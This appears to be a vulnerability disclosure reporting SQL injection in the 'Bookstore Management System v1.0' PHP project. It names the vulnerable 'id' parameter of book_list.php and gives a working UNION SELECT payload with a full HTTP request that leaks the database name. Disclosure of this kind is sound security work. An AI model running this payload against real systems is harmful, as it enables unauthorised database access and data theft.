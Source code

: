 # Bookstore Management System v1.0 by 1000Projects has SQL injection

BUG_Author: 樊琦 广州大学，孙一航 广州大学，孙彦斌 广州大学

vendors: https://1000projects.org/bookstore-management-system-php-mysql-project.html

The program is built using the xmapp-php5.6 version

Vulnerability File: /bms/book_list.php?id=

Vulnerability location: /bms/book_list.php?id=, id

dbname =bms

[+] Payload: /bms/book_list.php?id=-17 union select 1,database(),3,4,5,6,7--+&cat=Web Design // Leak place ---> main_event_id

```sql
GET /bms/book_list.php?id=-17%20union%20select%201,database(),3,4,5,6,7--+&cat=Web%20Design HTTP/1.1
Host: 192.168.1.16
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7hpgkhvc3ujgkqtdko38g42if7
Connection: close
```

![image](https://github.com/user-attachments/assets/de720dc7-7b71-4859-8c86-90acba0a88dd)

